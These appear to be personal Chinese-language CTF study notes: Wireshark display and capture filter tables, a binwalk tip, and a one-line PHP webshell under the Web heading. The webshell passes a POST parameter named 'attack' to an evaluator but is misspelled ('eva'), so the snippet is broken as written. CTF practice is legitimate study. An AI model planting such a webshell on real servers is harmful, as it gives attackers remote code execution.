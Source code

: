 # CTF

## Pwn



## Web

- 一句话木马

```php
<?php @eva($_POST['attack']); ?>
```

### Wireshark常用过滤器

> 显示过滤器：抓包完成后筛选显示符合条件的数据包。

| 分类             | 命令                                           | 说明                  |
| ---------------- | ---------------------------------------------- | --------------------- |
| **IP 过滤**      | `ip.addr == 192.168.1.1`                       | 任意端为该 IP         |
|                  | `ip.src == 192.168.1.1`                        | 来源 IP               |
|                  | `ip.dst == 192.168.1.1`                        | 目的 IP               |
| **端口过滤**     | `tcp.port == 80`                               | 任意端口为 80         |
|                  | `tcp.srcport == 443`                           | 来源端口为 443        |
|                  | `tcp.dstport == 443`                           | 目的端口为 443        |
|                  | `udp.port == 53`                               | DNS 端口              |
| **协议过滤**     | `http`                                         | HTTP 协议             |
|                  | `dns`                                          | DNS 协议              |
|                  | `tcp` / `udp` / `icmp`                         | 常用协议过滤          |
|                  | `tls` / `ssl`                                  | 加密流量              |
| **内容匹配**     | `tcp contains "login"`                         | TCP 数据包包含字符串  |
|                  | `http.request.uri contains "index"`            | URI 包含 index        |
| **长度过滤**     | `frame.len > 500`                              | 包长大于 500 字节     |
| **TCP 状态过滤** | `tcp.flags.syn == 1 && tcp.flags.ack == 0`     | TCP SYN（握手第一步） |
| **组合逻辑**     | `ip.src == 192.168.1.1 and tcp.dstport == 443` | 来源 + 目的端口       |
|                  | `http or dns`                                  | HTTP 或 DNS           |
|                  | `not tcp`                                      | 排除 TCP 流量         |

> 捕获过滤器：抓包前设定，减少捕获的数据量。

| 分类         | 命令                            | 说明                |
| ------------ | ------------------------------- | ------------------- |
| **IP 过滤**  | `host 192.168.1.1`              | 任意端为该 IP       |
|              | `src host 192.168.1.1`          | 来源 IP             |
|              | `dst host 192.168.1.1`          | 目的 IP             |
| **网段过滤** | `net 192.168.1.0/24`            | 过滤整个网段        |
|              | `src net 10.0.0.0/8`            | 来源为内网 10.x.x.x |
| **端口过滤** | `port 80`                       | 任意端口 80         |
|              | `tcp port 443`                  | TCP 443 端口        |
|              | `udp port 53`                   | UDP 53 端口         |
| **协议过滤** | `tcp`                           | 捕获 TCP            |
|              | `udp`                           | 捕获 UDP            |
|              | `icmp`                          | 捕获 ICMP           |
| **排除流量** | `not port 22`                   | 排除 SSH 流量       |
| **组合逻辑** | `host 192.168.1.10 and port 80` | IP + 端口           |
|              | `tcp and not port 443`          | TCP 且排除 443      |

## Misc

- binwalk：隐写在图片中的图片、音频、压缩包
